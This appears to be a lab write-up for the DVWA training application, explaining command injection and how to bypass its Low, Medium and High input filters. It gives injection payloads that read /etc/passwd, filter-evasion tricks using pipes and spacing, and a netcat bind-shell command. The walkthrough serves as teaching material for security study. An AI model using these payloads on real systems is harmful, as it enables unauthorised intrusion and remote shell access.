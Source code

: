 Command Injection Optional Reading Material
Description

Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

This attack differs from Code Injection , in that code injection allows the attacker to add their own code that is then executed by the application. In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.


DVWA Command Injection Optional Reading Material
DVWA - Command Injection
Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

Low
Underlying code does not check if $target matches an IP Address. No filtering on special characters. ; in Unix/Linux allows for commands to be separated.

192.168.0.1; pwd - Prints working directory, see below:

![image](https://user-images.githubusercontent.com/60177793/95013879-ccf27180-0660-11eb-8a6c-43a2f40c13ee.png)


192.168.0.1; cat /etc/passwd | tee /tmp/passwd - Displays the contents of /etc/passwd on the webpage and also copies the contents of /etc/passwd file to the /tmp directory.

Alternatives to ;
&& - AND Operator
| - PIPE Operator - Completely removes IP address from output.

Medium
Viewing source code, we see that a blacklist has been set to exclude && and ;. As noted above, we can use | as a replacement:
192.168.0.1| cat /etc/passwd. Double || can also be used, as shown below:
Screenshot 2018-03-28 21.43.37
![image](https://user-images.githubusercontent.com/60177793/95013894-e5fb2280-0660-11eb-9ef8-7499c896d6d3.png)

Can also use | pwd or || pwd (no need to include the ip address.)

High
Viewing source code, more extensive blacklist has been set. Slightly trickier, however the answer is in the view source -
'| ' => '', - note that there is a space after the | character. If we try | pwd, no output is returned, however if we use |pwd we are including our command within this space, as shown below:
![image](https://user-images.githubusercontent.com/60177793/95013903-fa3f1f80-0660-11eb-8c57-6b452f6d1fd8.png)


Bind Shell
192.168.0.1; /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe - Creates a netcat listener, then use nc 192.168.0.1 4444 to connect. (Change IP addresses to match those of target machine)

Points to note:
Ensure you are using commands specific to the target you are trying to attack, all of the above are Linux, Windows commands will be different.

Try commands with and without a space between them.

You will not always have access to the source code.
